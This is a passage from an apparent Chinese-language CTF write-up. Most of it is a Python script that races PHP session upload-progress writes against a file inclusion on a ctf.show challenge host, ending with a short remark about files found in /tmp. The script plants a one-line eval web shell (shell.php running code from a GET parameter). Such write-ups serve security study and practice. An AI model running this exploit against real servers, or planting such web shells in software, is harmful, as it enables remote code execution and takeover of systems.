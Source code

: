 条件竞争脚本

```python
import io
import requests
import threading
# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
sessionid = 'ctfshow'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':'<?php file_put_contents("shell.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>'},
        files={'file':('1.jpg',fileBytes)}
        )

def read(session):
    while True:
        session.get(url + '?1=/tmp/sess_' + sessionid) # 进行文件包含
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ''

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(5):
    threading.Thread(target = write,args = (session,)).start()
for i in range(5):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```

最后好奇的查看/tmp目录下的文件，看到一些奇怪的php开头的文件名，里面内容是ctfshow
![5](/medias/session-include/5.png)
